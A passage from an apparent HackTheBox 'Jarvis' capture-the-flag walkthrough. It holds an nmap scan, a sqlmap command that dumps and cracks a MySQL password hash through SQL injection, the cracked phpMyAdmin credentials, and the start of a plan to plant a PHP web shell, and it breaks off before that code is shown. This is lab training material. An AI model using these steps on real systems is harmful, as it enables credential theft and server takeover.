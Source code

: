 ```yaml
---
layout: post
title: Jarvis - Hackthebox
date: 2019-11-10
Author: Dark0
tags: [sample, document]
toc: 
pinned: true
---
```


# Hackthebox - Jarvis | Walkthrough

#### Hello guys! Welcome to yet another from hackthebox walkthrough. The new box retired is Jarvis, so we'll solve it. Jarvis is a box classified at a medium level. With Jarvis we learn some skills related to the sqli and binary setuid exploit. Ok, let's go

## Penetration Methodologies

* **Scanning**

   + _nmap_
       
* **Enumeration**

   + _Browsing HTTP server_
   + _Directory Scanning using dirb_
   + _Getting creds with SQLi_

* **Exploitation**

  * **User**

   + _shell phpmyadmin_
   + _Command injection_

  * **Root**
   
   + _SETUID binarie_   
_____________________________________________________________________________________________________________________________

## Scanning

#### To start I just did it first scan with the nmap, we found two ports, 22 to ssh, and 80 to web service. Good, here we go

```
┌─[root@parrot]─[~]
└──╼ #nmap -T4 -A jarvis.htb
Starting Nmap 7.70 ( https://nmap.org ) at 2019-11-10 02:19 -03
Nmap scan report for jarvis.htb (10.10.10.143)
Host is up (0.14s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 03:f3:4e:22:36:3e:3b:81:30:79:ed:49:67:65:16:67 (RSA)
|   256 25:d8:08:a8:4d:6d:e8:d2:f8:43:4a:2c:20:c8:5a:f6 (ECDSA)
|_  256 77:d4:ae:1f:b0:be:15:1f:f8:cd:c8:15:3a:c3:69:e1 (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Stark Hotel
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:

```
______________________________________________________________________________________________________________________________

## Enumeration

#### Good, port 80 we get it web page, looks like a page of the hotel, maybe if we'll browse in the page we'll find something interesting

![](https://raw.githubusercontent.com/cassioplima/cassioplima.github.io/master/images/jarvis/Captura%20de%20tela%20em%202019-11-10%2003-15-33.png)

#### with a little search in the page, I found a suspect link and decided to try to force SQL with a single quote and received a weird result...

![](https://raw.githubusercontent.com/cassioplima/cassioplima.github.io/master/images/jarvis/quartos.png)


#### I've used the dirb to enumerate directories, but dirbuster and gobuster would work too. We see that the dirb found some pages, that's good. But the page what we interested to is `/phpmyadmin`

![](https://raw.githubusercontent.com/cassioplima/cassioplima.github.io/master/images/jarvis/Captura%20de%20tela%20em%202019-11-10%2002-19-10.png)

#### I used the sqlmap to dump the users and passwords hashes, the `--passwords` flag is for that

``sqlmap -u http://jarvis.htb/room.php?cod=1 --user-agent "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.87 Safari/537.36" --passwords``

```
[04:27:04] [INFO] fetching database users password hashes
[04:27:04] [INFO] fetching database users
[04:27:04] [INFO] fetching number of database users
[04:27:04] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
[04:27:04] [INFO] retrieved: 1
[04:27:05] [INFO] retrieved: 'DBadmin'@'localhost'
[04:27:26] [INFO] fetching number of password hashes for user 'DBadmin'
[04:27:26] [INFO] retrieved: 1
[04:27:27] [INFO] fetching password hashes for user 'DBadmin'
[04:27:27] [INFO] retrieved: *2D2B7A5E4E637B8FBA1D17F40318F277D29964D0
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] y
[04:33:12] [INFO] writing hashes to a temporary file '/tmp/sqlmapNCB3gB4320/sqlmaphashes-u13BSC.txt' 
do you want to perform a dictionary-based attack against retrieved password hashes? [Y/n/q] y
[04:33:16] [INFO] using hash method 'mysql_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/share/sqlmap/txt/wordlist.zip' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 1
[04:33:19] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N] n
[04:33:22] [INFO] starting dictionary-based cracking (mysql_passwd)
[04:33:22] [INFO] starting 4 processes 
[04:33:25] [INFO] cracked password 'imissyou' for user 'DBadmin'                                                                                                                             
database management system users password hashes:                                                                                                                                            
[*] DBadmin [1]:
    password hash: *2D2B7A5E4E637B8FBA1D17F40318F277D29964D0
    clear-text password: imissyou
```

#### User and password found: (DBadmin: imissyou), Let's try login in PHPMyAdmin

______________________________________________________________________________________________________________________________

## EXPLOITATION

### USER

#### We've access to the PHPMyAdmin. Now, we'll put a shell in server to get RCE. To that, we should go to "New" and after "SQL"

![](https://raw.githubusercontent.com/cassioplima/cassioplima.github.io/master/images/jarvis/phpmyadmin.png)

#### This code will create one archive with the name "shell.php" inside the directory "/var/www/html"
   
   

